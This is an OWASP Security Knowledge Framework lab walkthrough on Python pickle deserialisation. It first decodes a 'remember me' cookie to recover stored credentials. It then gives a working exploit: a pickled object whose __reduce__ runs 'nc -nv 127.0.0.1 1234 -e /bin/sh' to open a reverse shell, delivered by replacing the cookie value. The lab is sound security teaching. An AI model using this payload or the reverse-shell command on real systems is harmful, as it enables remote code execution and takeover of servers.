








# Python - Deserialisation Pickle 2 (DES-Pickle-2)

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```


Now that the app is running let's go hacking!


## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```


Now that the app is running let's go hacking!


.png>)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution.

Some use cases for python pickle: 1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence) 2) sending python data over a TCP connection in a multi-core or distributed system (marshalling) 3) storing python objects in a database 4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user





Please note that (for convenience) your password will be reset if the user already exists. Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:



You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:



To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:



This results in the following request and response:



This works because we received a rememberme cookie during our initial login:



As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia: The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy

```python
import pickle, base64
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class. So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values. This function will return all the properties and methods, even built-in properties which are default for all object.

```
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```

The attributes we were looking for are 'password' and 'username'

Putting it all toghther:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell. After instanciating the object, we serialize it and base64 encode it. This output will be our payload.

```python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

_Note: If Netcat (nc) program is not available, change the argument passed at os.system call to sleep(5)._

This will yield the following output:

```
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:



We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above: 

A revers shell is is connected: 

## Additional sources


